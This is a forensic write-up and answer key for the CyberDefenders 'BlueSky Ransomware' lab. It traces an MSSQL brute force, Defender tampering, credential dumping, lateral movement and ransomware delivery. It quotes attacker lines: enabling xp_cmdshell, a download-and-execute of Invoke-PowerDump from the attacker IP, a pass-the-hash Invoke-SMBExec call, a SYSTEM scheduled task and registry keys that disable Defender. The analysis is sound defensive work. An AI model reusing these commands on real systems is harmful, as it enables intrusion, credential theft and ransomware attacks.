# CyberDefenders – BlueSky Ransomware

| | |
|---|---|
| **Category** | Network & Endpoint Forensics |
| **Difficulty** | Medium |
| **Artifacts** | `artifacts/BlueSkyRansomware.pcap`, `artifacts/BlueSkyRansomware.evtx` (Application + Windows PowerShell logs) |
| **Tools** | Wireshark, Event Viewer, VirusTotal |



## Summary

| | Answer |
|---|---|
| Q1 | `87.96.21.84` |
| Q2 | `sa` |
| Q3 | `cyb3rd3f3nd3r$` |
| Q4 | `xp_cmdshell` |
| Q5 | `winlogon.exe` |
| Q6 | `http://87.96.21.84/checking.ps1` |
| Q7 | `S-1-5-32-544` |
| Q8 | `DisableAntiSpyware, DisableRoutinelyTakingAction, DisableRealtimeMonitoring, SubmitSamplesConsent, SpynetReporting` |
| Q9 | `http://87.96.21.84/del.ps1` |
| Q10 | `\Microsoft\Windows\MUI\LPupdate` |
| Q11 | `TA0005` |
| Q12 | `Invoke-PowerDump.ps1` |
| Q13 | `hashes.txt` |
| Q14 | `extracted_hosts.txt` |
| Q15 | `# DECRYPT FILES BLUESKY #` |
| Q16 | `BlueSky` |

## Attack Timeline

- **Attacker:** `87.96.21.84`
- **Victim:** `87.96.21.81` (MSSQL server)

1. Port scan (SYN) from `87.96.21.84` finds MSSQL on TCP 1433 open.
2. Brute force of the `sa` account. Login succeeds with `cyb3rd3f3nd3r$`.
3. `xp_cmdshell` is enabled and used to drop a base64-encoded payload (Metasploit). The C2 is then injected into `winlogon.exe`.
4. `checking.ps1` checks for admin rights, disables Defender, downloads `del.ps1` and creates a scheduled task for persistence.
5. `ichigo-lite.ps1` dumps hashes with `Invoke-PowerDump` and moves laterally with `Invoke-SMBExec` (pass-the-hash) to hosts listed in `extracted_hosts.txt`.
6. The ransomware `javaw.exe` (BlueSky) is downloaded to `C:\ProgramData\javaw.exe`.

HTTP objects seen in the PCAP (File > Export Objects > HTTP):

```
/checking.ps1  /del.ps1  /ichigo-lite.ps1  /Invoke-PowerDump.ps1
/Invoke-SMBExec.ps1  /extracted_hosts.txt  /javaw.exe
```

---

## Q1 – Source IP of the port scan

Filter: `tcp.flags.syn == 1 && tcp.flags.ack == 0`

`87.96.21.84` sends SYN packets to about 1000 different ports on `87.96.21.81`. Closed ports reply with `RST, ACK`. This is a SYN scan.



**Answer:** `87.96.21.84`

## Q2 – Targeted account

Filter: `tds`



Most login attempts are wrapped in TLS (pre-login, then a TLS handshake). Only two `TDS7 login` packets are in plaintext. In those, the field `Username` = `sa`.



**Answer:** `sa`

## Q3 – Password found by the attacker

The same plaintext `TDS7 login` packets show `Password: cyb3rd3f3nd3r$`. TDS7 only obfuscates the password (XOR 0xA5 + nibble swap), and Wireshark decodes it automatically.

The evtx confirms this. MSSQL logged event **18456** (login failed for `sa` from `87.96.21.84`, "Password did not match") 44 times. These were followed by **18454** (successful SQL authentication for `sa` from `87.96.21.84`). The password is visible in the Q2 screenshot.

**Answer:** `cyb3rd3f3nd3r$`

## Q4 – Setting enabled to run commands

SQL batch from the attacker:

```sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

The attacker then uses `xp_cmdshell 'echo TVqQ...>>%TEMP%\SBjzH.b64'` to write a PE file to disk piece by piece. MSSQL event **15457** in the evtx records both changes (`show advanced options` and `xp_cmdshell` set from 0 to 1).



**Answer:** `xp_cmdshell`

## Q5 – Process injected with the C2

In the *Windows PowerShell* log, events **400/600** show:

```
HostName=MSFConsole
HostApplication=winlogon.exe
```

This means a Meterpreter PowerShell session is running inside `winlogon.exe`, which runs as SYSTEM.





**Answer:** `winlogon.exe`

## Q6 – URL of the first downloaded file

Filter: `http.request`. The first request is `GET /checking.ps1` to `87.96.21.84`.



**Answer:** `http://87.96.21.84/checking.ps1`

## Q7 – Group SID checked

First line of `checking.ps1`:

```powershell
$priv = [bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")
```

`S-1-5-32-544` is the `BUILTIN\Administrators` group.



**Answer:** `S-1-5-32-544`

## Q8 – Registry keys used to disable Defender

The `Disable-WindowsDefender` function in `checking.ps1` sets each of the keys below to `1` under `HKLM:\SOFTWARE\Microsoft\Windows Defender`:

```powershell
"DisableAntiSpyware", "DisableRoutinelyTakingAction", "DisableRealtimeMonitoring",
"SubmitSamplesConsent", "SpynetReporting"
```

The script also adds exclusions for `C:\ProgramData\Oracle`, `C:\ProgramData\Oracle\Java` and `C:\Windows`. It stops the WinDefend service and also stops MBAM and Sophos.



**Answer:** `DisableAntiSpyware, DisableRoutinelyTakingAction, DisableRealtimeMonitoring, SubmitSamplesConsent, SpynetReporting`

## Q9 – URL of the second downloaded file

The `CleanerEtc` function in `checking.ps1` downloads `del.ps1` to `C:\ProgramData\del.ps1`.



**Answer:** `http://87.96.21.84/del.ps1`

## Q10 – Scheduled task for persistence

Also in `CleanerEtc` (`checking.ps1`):

```
schtasks.exe /f /tn "\Microsoft\Windows\MUI\LPupdate"
  /tr "C:\Windows\System32\cmd.exe /c powershell -ExecutionPolicy Bypass -File C:\ProgramData\del.ps1"
  /ru SYSTEM /sc HOURLY /mo 4 /create
```

The task runs `del.ps1` as SYSTEM every 4 hours. Its name imitates a Windows MUI task. If the script does not have admin rights, it falls back to `CleanerNoPriv`, which creates the task `Optimize Start Menu Cache Files-S-3-5-21-...-1237` instead.

**Answer:** `\Microsoft\Windows\MUI\LPupdate`

## Q11 – Main tactic of the second file

`del.ps1` does two things:

```powershell
Get-WmiObject _FilterToConsumerBinding -Namespace root\subscription | Remove-WmiObject

$list = "taskmgr", "perfmon", "SystemExplorer", "taskman", "ProcessHacker",
        "procexp64", "procexp", "Procmon", "Daphne"
# stop-process each one
```

1. It removes WMI event subscriptions.
2. It kills monitoring and analysis tools so the attacker's activity is harder to see.

Both map to **Defense Evasion (TA0005)**, which is the answer the lab expects. Newer versions of the ATT&CK matrix (screenshot below) split this tactic into *Stealth* and *Defense Impairment*.





**Answer:** `TA0005`

## Q12 – Script used to dump credentials

`checking.ps1` loads `ichigo-lite.ps1`, which in turn downloads and runs `Invoke-PowerDump.ps1`. The call is base64-encoded:

```
KE5ldy1PYmplY3Qg... -> (New-Object System.Net.WebClient).DownloadString('http://87.96.21.84/Invoke-PowerDump.ps1') | Invoke-Expression
```

Invoke-PowerDump reads NTLM hashes from the SAM registry hive.



**Answer:** `Invoke-PowerDump.ps1`

## Q13 – File containing the dumped credentials

The second base64 string in `ichigo-lite.ps1` decodes to:

```powershell
Invoke-PowerDump | Out-File -FilePath "C:\ProgramData\hashes.txt"
```

The script then parses usernames and hashes from this file with a regex, for use with pass-the-hash.



**Answer:** `hashes.txt`

## Q14 – File containing the discovered hosts

`ichigo-lite.ps1` downloads the host list from the attacker's server:

```powershell
$hostsContent = Invoke-WebRequest -Uri "http://87.96.21.84/extracted_hosts.txt" | ...
Invoke-SMBExec -Target $targetHost -Username $username -Hash $password
```

File contents: `87.96.21.71`, `87.96.21.75`, `87.96.21.80`, `87.96.21.81`. The script runs `Invoke-SMBExec` against each host, using the first hash from `hashes.txt`.





**Answer:** `extracted_hosts.txt`

## Q15 – Ransom note file name

At the end of `ichigo-lite.ps1`, the ransomware is downloaded from `http://87.96.21.84/javaw.exe` to `C:\ProgramData\javaw.exe`.



VirusTotal (SHA256 `3e035f2d7d30869ce53171ef5a0f761bfb9c14d94d9fe6da385e20b8d96dc2fb`) > Behavior > Files Opened shows the ransom note being written as `# DECRYPT FILES BLUESKY #.txt` and `.html`:



**Answer:** `# DECRYPT FILES BLUESKY #`

## Q16 – Ransomware family

On VirusTotal, 56/63 vendors flag the file. The popular threat label is `ransomware.bluesky/conti` and the family label is `bluesky`. BlueSky reuses code from Conti, which explains the second label.



**Answer:** `BlueSky`

---

## IoCs

| Type | Value |
|---|---|
| Attacker IP | `87.96.21.84` |
| Compromised account | `sa` / `cyb3rd3f3nd3r$` |
| URL | `http://87.96.21.84/checking.ps1` |
| URL | `http://87.96.21.84/del.ps1` |
| URL | `http://87.96.21.84/ichigo-lite.ps1` |
| URL | `http://87.96.21.84/Invoke-PowerDump.ps1` |
| URL | `http://87.96.21.84/Invoke-SMBExec.ps1` |
| URL | `http://87.96.21.84/extracted_hosts.txt` |
| URL | `http://87.96.21.84/javaw.exe` |
| SHA256 (`javaw.exe`) | `3e035f2d7d30869ce53171ef5a0f761bfb9c14d94d9fe6da385e20b8d96dc2fb` |
| File | `C:\ProgramData\del.ps1`, `C:\ProgramData\hashes.txt`, `C:\ProgramData\javaw.exe` |
| Scheduled task | `\Microsoft\Windows\MUI\LPupdate` |
| Injected process | `winlogon.exe` |
| Lateral movement targets | `87.96.21.71`, `87.96.21.75`, `87.96.21.80` |
| Ransom note | `# DECRYPT FILES BLUESKY #` |

## Recommendations

- Do not expose port 1433 to the network directly. Disable or rename `sa`, use a strong password, and set an account lockout policy.
- Keep `xp_cmdshell` disabled. Alert when `sqlservr.exe` spawns `cmd.exe` or `powershell.exe`.
- Turn on Defender Tamper Protection and PowerShell Script Block Logging (4104).
- Restrict SMB (445) between workstations. Monitor newly created scheduled tasks.
